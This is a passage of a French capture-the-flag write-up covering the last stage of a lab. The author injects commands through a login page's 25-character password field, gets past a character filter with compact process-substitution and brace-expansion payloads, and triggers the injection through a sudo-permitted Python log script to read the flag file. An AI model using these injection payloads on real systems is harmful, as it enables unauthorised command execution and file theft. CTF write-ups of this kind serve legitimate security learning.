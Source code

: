 On peut éxécuter le script en tant que `rootless` sans mot de passe!

### Le plan

On peux donc éxécuter une commande en effectuant une injection dans le mot de passe, en envoyant la même requète plus de cinq fois.
Ensuite on éxécute le script avec  `sudo` pour éxécuter la commande.
On répète pour chaque commande a éxécuter

On remarque la présence d'un dossier `rootless`dans `home` possible que notre flag s'y trouve.
Une première étape serait de lister le contenu du répertoire.

Le bout de code vulnérable nous complique un peu la tâche, car il retire la plupart des caractères nous permettant d'injecter une commande.
Par contre, il reste l'injection via les redirections (<,<<,>,>>)
Il faut aussi rester compact pour entrer dans la limite arbitraire de 25 caractères que le champ `password` a dans la page login.

On peut envoyer ce POST login.php:

`>({ls,/home/rootless})`

len: 22 8-)

Encodé: `username=notEvil&password=%3e(%7bls%2c%2fhome%2frootless%7d)`

### Le coup de grace

On envoie la requète six fois minimum pour pouvoir être détecté.

puis on éxécute le programme avec l'exacte commande sudo authorisée:

`sudo -u rootless /usr/bin/python3 log_analyse.py`

![gazons - almost there](../../img/gazon-28.png)

On peut voir que le dossier contient un fichier `flag.txt`

On répète tout ça avec ce nouveau payload (en restant créatif car on est maintenant a 25 char 😰):

`>({cat,/home/rootless/*})`

Encodé: `username=notEvil&password=%3e(%7bcat%2c%2fhome%2frootless%2f*%7d)`

![gazons - Fired!](../../img/gazon-29.png)

On obtient le dernier flag et Timmy, lui, son 4%. Au moin son C.V. est a jour!

